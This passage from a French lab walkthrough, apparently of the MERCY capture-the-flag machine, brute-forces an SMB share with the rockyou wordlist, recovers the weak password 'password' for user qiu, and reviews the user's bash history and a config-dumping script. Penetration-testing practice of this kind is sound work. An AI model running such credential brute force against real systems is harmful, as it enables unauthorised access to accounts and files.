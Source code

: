 On a deux utilisateurs. Tentons de brute-forcer un mot de passe.

Cette fois je suis passé directement à mon script [brute_smb_share: Brute force a SMB share](https://github.com/devl00p/brute_smb_share) plutôt que de tenter un *Hydra* et autres :

```console
$ python3 brute_smb_share.py 192.168.56.118 qiu users.txt tools/wordlists/rockyou.txt 
Success with user qiu and password password
        .bashrc
        .public
        .bash_history
        .cache
        .private
        .bash_logout
        .profile
```

Avec ce mot de passe faible (`password`) je peux me connecter au partage SMB avec le compte `qiu`. On peut lire son historique bash :

```bash
exit
cd ../
cd home
cd qiu
cd .secrets
ls -al
cd .private
ls
cd secrets
ls
ls -al
cd ../
ls -al
cd opensesame
ls -al
./configprint
sudo configprint
sudo su -
exit
```

On trouve aussi un script baptisé `configprint` :

```bash
#!/bin/bash

echo "Here are settings for your perusal." > config
echo "" >> config
echo "Port Knocking Daemon Configuration" >> config
echo "" >> config
cat "/etc/knockd.conf" >> config
echo "" >> config
echo "Apache2 Configuration" >> config
echo "" >> config
cat "/etc/apache2/apache2.conf" >> config
echo "" >> config
echo "Samba Configuration" >> config
echo "" >> config
cat "/etc/samba/smb.conf" >> config
echo "" >> config
echo "For other details of MERCY, please contact your system administrator." >> config

chown qiu:qiu config
```
